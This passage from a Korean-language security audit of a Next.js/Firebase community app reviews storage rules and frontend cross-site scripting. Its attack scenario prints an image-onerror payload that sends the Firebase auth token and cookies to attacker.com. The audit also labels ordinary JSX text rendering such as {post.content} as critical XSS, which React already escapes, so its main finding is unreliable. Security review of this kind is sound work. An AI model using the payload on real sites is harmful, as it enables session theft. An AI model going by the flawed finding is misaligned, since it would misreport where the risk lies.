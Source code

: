 ### Storage Security Rules

#### ✅ 잘 구현된 부분:
1. 파일 크기 제한 (5MB)
2. 이미지 타입 검증
3. 사용자별 업로드 권한 제어

#### 🟡 개선 필요:
1. **파일 확장자 검증 추가**
   ```
   function isValidImageType() {
     return request.resource.contentType.matches('image/(jpeg|png|gif|webp)');
   }
   ```

2. **업로드 Rate Limiting**
   - Firebase App Check로 스팸 업로드 방지

---

## 🌐 프론트엔드 보안 분석

### XSS (Cross-Site Scripting)

#### 🔴 Critical: 사용자 입력 직접 렌더링

**취약한 코드**:
1. `app/dashboard/community/[id]/page.tsx:171`
   ```tsx
   <p className="whitespace-pre-wrap">{post.content}</p>
   ```

2. `app/dashboard/community/[id]/page.tsx:316`
   ```tsx
   <p className="text-gray-700 dark:text-gray-300 whitespace-pre-wrap">
     {reply.content}
   </p>
   ```

3. `app/dashboard/community/write/page.tsx:219-225`
   ```tsx
   <textarea
     value={formData.content}
     onChange={(e) => setFormData(prev => ({ ...prev, content: e.target.value }))}
     placeholder="내용을 입력하세요... (마크다운 문법 지원)"
   />
   ```
   - **문제**: 마크다운을 언급하지만 실제로 파싱하지 않음

**공격 시나리오**:
```javascript
// 악성 게시글 내용
const maliciousContent = `
  안녕하세요!
  <img src=x onerror="
    fetch('https://attacker.com/steal', {
      method: 'POST',
      body: JSON.stringify({
        token: localStorage.getItem('firebase:authUser'),
        userData: document.cookie
      })
    })
  ">
`;
```
